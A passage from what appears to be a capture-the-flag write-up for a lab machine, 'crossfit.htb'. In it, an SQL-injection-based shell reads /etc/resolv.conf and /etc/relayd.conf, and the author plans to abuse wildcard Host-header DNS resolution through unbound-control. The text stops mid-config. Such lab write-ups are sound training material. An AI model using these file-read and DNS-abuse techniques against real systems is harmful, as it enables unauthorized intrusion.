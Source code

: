 ```py
        file_content = response['debug'][17:-1]
        print(file_content)


Read_SQLI().cmdloop()
```

Since we know that unbound dns is running on the machine the `/etc/resolv.conf` might have some interesting information. Retrieving it we see the machine is looking up dns locally.

```php
sm1l3z > read_file /etc/resolv.conf
lookup file bind
#nameserver 8.8.8.8
nameserver 127.0.0.1
```

Looking up the `/etc/relayd.conf` we can also retrieve the specific rules for dns-lookup. Interestingly here are the wildcards being used. This means if we send a request with a host header of `{random}employees.crossfit.htb` to the server it will try to look it up with unbound dns. To abuse this the resolving has to happen on our machine, which means we have to interact with the `unbound-control`  on port `8953`.

```php
sm1l3z > read_file /etc/relayd.conf
table<1>{127.0.0.1}
table<2>{127.0.0.1}
table<3>{127.0.0.1}
table<4>{127.0.0.1}
http protocol web{
        pass request quick header "Host" value "*crossfit-club.htb" forward to <3>
        pass request quick header "Host" value "*employees.crossfit.htb" forward to <2>
        match request path "/*" forward to <1>
        match request path "/ws*" forward to <4>
        http websockets
}

table<5>{127.0.0.1}
table<6>{127.0.0.1 127.0.0.2 127.0.0.3 127.0.0.4}
http protocol portal{
        pass request quick path "/" forward to <5>
        pass request quick path "/index.html" forward to <5>
        pass request quick path "/home" forward to <5>
        pass request quick path "/login" forward to <5>
        pass request quick path "/chat" forward to <5>
        pass request quick path "/js/*" forward to <5>
        pass request quick path "/css/*" forward to <5>
        pass request quick path "/fonts/*" forward to <5>
        pass request quick path "/images/*" forward to <5>
        pass request quick path "/favicon.ico" forward to <5>
        pass forward to <6>
        http websockets
}

relay web{
        listen on "0.0.0.0" port 80
        protocol web
        forward to <1> port 8000
        forward to <2> port 8001
        forward to <3> port 9999
        forward to <4> port 4419
}

relay portal{
        listen on 127.0.0.1 port 9999
```
